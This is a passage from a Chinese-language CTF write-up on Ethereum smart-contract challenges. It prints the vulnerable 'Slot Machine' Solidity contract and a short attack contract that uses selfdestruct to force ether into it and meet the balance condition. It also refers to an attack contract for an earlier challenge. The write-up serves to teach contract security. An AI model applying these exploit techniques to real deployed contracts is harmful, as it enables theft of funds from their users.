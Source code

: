 将攻击合约添加到玩家列表即可开始攻击，注意gas要设置的足够高，发送的value在2 ether以上

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://raw.githubusercontent.com/BubbLess/myimg/master/20181216140516.png)

这样在一个块内即可完成攻击过程



## 0x10.Slot Machine

主要代码

```
contract SlotMachine is CtfFramework`{`

    using SafeMath for uint256;

    uint256 public winner;

    constructor(address _ctfLauncher, address _player) public payable
        CtfFramework(_ctfLauncher, _player)
    `{`
        winner = 5 ether;
    `}`

    function() external payable ctf`{`
        require(msg.value == 1 szabo, "Incorrect Transaction Value");
        if (address(this).balance &gt;= winner)`{`
            msg.sender.transfer(address(this).balance);
        `}`
    `}`

`}`
```

完成挑战需要合约的balance大于5 ether，但是合约的fallback函数限制了我们每次发送的ether为1 szabo，而1 ether等于10^6 szabo，所以想靠这样发送ether满足条件是不现实的，这里就得利用`selfdestruct`函数在自毁合约时强制发送合约的balance，因为这样不会出发目标的fallback函数。

部署一个攻击合约

```
contract attack `{`
    constructor() public payable`{`

    `}`
    function pwn() public `{`
        selfdestruct(your challenge address);
    `}`
`}`
```

创建合约时发送足够的ether，然后销毁合约强制发送ether即可完成挑战。


